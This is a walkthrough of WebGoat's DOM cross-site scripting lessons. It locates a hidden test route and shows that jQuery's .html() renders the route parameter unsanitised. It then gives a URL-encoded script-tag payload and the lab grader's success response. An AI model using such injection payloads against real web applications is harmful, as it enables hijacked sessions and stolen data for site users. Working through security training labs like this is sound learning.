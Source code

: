 # (A7) Cross Site Scripting

## Lesson 10
The test route is hidden in `js/view/GoatRouter.js`:
```
routes: {
        'welcome': 'welcomeRoute',
        'lesson/:name': 'lessonRoute',
        'lesson/:name/:pageNum': 'lessonPageRoute',
        'test/:param': 'testRoute',
        'reportCard': 'reportCard'
}
...

testRoute: function (param) {
    this.lessonController.testHandler(param);
    //this.menuController.updateMenu(name);
}
```

So the answer is `start.mvc#test/`

## Lesson 11
`testHandler` is located in `js/controller/LessonController.js`:
```
this.testHandler = function(param) {
    console.log('test handler');
    this.lessonContentView.showTestParam(param);
};
```

And in `js/view/LessonContentView.js`:
```
/* for testing */
showTestParam: function (param) {
    this.$el.find('.lesson-content').html('test:' + param);
}
```

`.html()` function is vulnerable to XSS.
 
Use this URL to call the requested method:
```
http://vernjan:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome%28%29%3C%2Fscript%3E
```
And grab the random number from response:
```
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : "phoneHome Response is 1090389950",
  "assignment" : "DOMCrossSiteScripting",
  "attemptWasMade" : true
}
```
